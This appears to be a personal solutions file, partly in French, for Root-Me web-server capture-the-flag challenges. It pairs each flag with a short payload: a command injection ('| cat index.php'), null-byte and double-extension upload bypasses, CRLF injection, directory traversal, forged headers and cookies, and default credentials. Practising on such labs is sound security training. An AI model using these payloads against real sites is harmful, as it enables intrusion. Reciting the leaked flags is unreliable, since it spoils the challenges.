 # web-server

## HTML - Code source
hint: inspecter élément
- nZ^&@q5&sjJHev0 

## HTTP - Open redirect

solve:  curl -G http://challenge01.root-me.org/web-serveur/ch52/ -d "url=https://google.fr&h=0edf27c83d4aa4699c0625d27be0e371" -o solve.txt 

- e6f8a530811d5a479812d7b82fc1a5c5 


## HTTP - User-agent


solve: curl -H "User-Agent: admin" http://challenge01.root-me.org/web-serveur/ch2/

- rr$Li9%L34qd1AAe27


## Mot de passe faible

solve: admin/admin

- admin

## PHP - Injection de commande

solve: | cat index.php 

- S3rv1ceP1n9Sup3rS3cure

## Fichier de sauvegarde

solve: index.php~ 

- OCCY9AcNm1tj

## HTTP - Directory indexing

hint: admin/backup/admin.txt

- LINUX

## HTTP - Headers
hint: python headers.py ou curl --header "Header-RootMe-Admin:admin" http://challenge01.root-me.org/web-serveur/ch5/

- HeadersMayBeUseful

## HTTP - Post
hint: supprimer le js et modifier le score

- H7tp_h4s_N0_s3Cr37S_F0r_y0U

## HTTP - Improper redirect
hint: curl http://challenge01.root-me.org/web-serveur/ch32/

- ExecutionAfterRedirectIsBad

## HTTP - Verb tampering

hint: curl -X PUT http://challenge01.root-me.org/web-serveur/ch8/

- a23e$dme96d3saez$$prap

## Install files

hint: phpbb/install/install.php 

- karambar

## File upload - Double extensions
hint: poster le fichier upload.php et le changer en upload.php.png 

- Gg9LRz-hWSxqqUKd77-_q-6G8

## File upload - Type MIME
hint: poster le fichier upload.php et le changer en upload.php%00.png 

## HTTP - Cookies

hint: utiliser curl 

- curl http://challenge01.root-me.org/web-serveur/ch7/ --cookie "ch7=admin"  | cut -d '<' -f2  | cut -d ':' -f2

- ml-SYMPA 

## File upload - Null byte
- utiliser le fichier nullbyte.php%00.png 
- YPNchi2NmTwygr2dgCCF 

## CRLF

- ?username=admin authenticated.%0D%0Aa&password=admin

- rFSP&G0p&5uAg1%

## Directory traversal

- http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=

- http://challenge01.root-me.org/web-serveur/ch15/galerie/86hwnX2r/

- http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=86hwnX2r/

- http://challenge01.root-me.org/web-serveur/ch15/galerie/86hwnX2r//password.txt

- kcb$!Bx@v4Gs9Ez